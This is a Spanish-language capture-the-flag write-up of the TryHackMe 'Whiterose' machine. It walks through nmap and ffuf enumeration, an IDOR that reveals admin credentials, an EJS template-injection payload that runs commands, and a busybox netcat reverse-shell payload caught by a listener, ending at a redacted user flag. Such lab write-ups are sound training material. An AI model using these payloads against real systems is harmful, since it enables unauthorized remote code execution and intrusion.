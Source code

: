 22-02-2025 20:11
Status: #idea
Tags: [[Writeups]]

# Whiterose

Olivia Cortez:olivi8

10.10.170.109

Se nos indica al principio que el usuario Olivia Cortez con la contraseña olivi8 serán útiles a lo largo de la máquina.

Tras un escaneo de nmap, podemos determinar que los puertos 80 y 22 están abiertos, teniendo así los servicios de SSH y Nginx activos.

```shell
nmap -sC -sV -O --osscan-guess 10.10.170.109

Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-22 19:32 GMT
Nmap scan report for cyprusbank.thm (10.10.170.109)
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:12:8D:60:9B:2F (Unknown)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 3.8 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ )
```

Las versiones de estos servicios son OpenSSH 7.6p1 Ubuntu 4ubuntu0.7, y nginx/1.14.0 respectivamente.

El sistema operativo de la máquina es Linux.

Al acceder a la web veremos un mensaje de mantenimiento.

![[Pasted image 20250222203344.png]]

## Enumeración

### Directorios

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cyprusbank.thm/FUZZ -ic
```

Con esta búsqueda no se ha encontrado nada, por lo tanto paso a hacer enumeración de VHOSTS.

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://cyprusbank.thm -H 'Host: FUZZ.cyprusbank.thm' -ic -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
 :: Filter           : Response words: 1
 :: Filter           : Response lines: 4
________________________________________________

www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [4997/4997] :: Job [1/1] :: 13044 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Como vemos, admin llama a la atención, por lo tanto editaremos el archivo /etc/hosts, para poder acceder.

Una vez accedemos, hay un panel de administración.

![[Pasted image 20250222204508.png]]

Si probamos a usar las credenciales que nos han indicado anteriormente en la sala, obtendremos acceso al panel.

![[Pasted image 20250222205606.png]]

Los datos que vemos en el panel están censurados, por lo que no podremos ver el número de teléfono de Tyrell.

Si accedemos a la sección de mensajes, veremos una url con un parámetro interesante. Si lo cambiamos, haremos un IDOR y obtendremos las credenciales de una cuenta de administrador.

Con esto ya podremos obtener el número de teléfono de Tyrell.

Si accedemos al apartado de settings, e interceptamos la request, podremos jugar con los parámetros y ver que podemos producir un error 500 que mostrará una traza interesante:

```text
ReferenceError: /home/web/app/views/settings.ejs:14
    12|         <div class="alert alert-info mb-3"><%= message %></div>
    13|       <% } %>
 >> 14|       <% if (password != -1) { %>
    15|         <div class="alert alert-success mb-3">Password updated to '<%= password %>'</div>
    16|       <% } %>
    17|       <% if (typeof error != 'undefined') { %>

password is not defined
    at eval ("/home/web/app/views/settings.ejs":27:8)
    at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)
    at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)
    at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)
    at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)
    at /home/web/app/routes/settings.js:27:7
    at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

Llama la atención el archivo settings.ejs, si buscamos algún tipo de exploit con referencia a esto, podremos vulnerar la máquina.

Y para nuestra suerte, hay un CVE que nos permite ejecutar comandos (RCE) en la máquina.

Con este payload podremos ejecutar el comando "whoami":

```http
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');&password=test
```

Al poder ejecutar este tipo de comandos, podríamos conseguir una reverse shell, lo que nos permitiría ejecutar comandos directamente en la máquina sin necesidad de interactuar a través de requests.

Con el siguiente payload podremos recibir la conexión en nuestro listener:

```shell
nc -lvnp 4444
name=test&password=&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.10.150.123 4444 -e sh');s
```

Posteriormente vamos a ver como en nuestro netcat se recibe una conexión, y podremos spawnear una shell con python o de otras maneras:

```shell
root@ip-10-10-150-123:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.0 38318
python3 -c 'import pty; pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 

web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)

```

Si seguimos investigando dentro de los directorios de nuestro servidor, veremos la flag de user.txt:

```shell
web@cyprusbank:~/app$ cd ..
cd ..
web@cyprusbank:~$ ls
ls
app  user.txt
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{XXXXXXXXXXXXX}
web@cyprusbank:~$ 
```



---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```
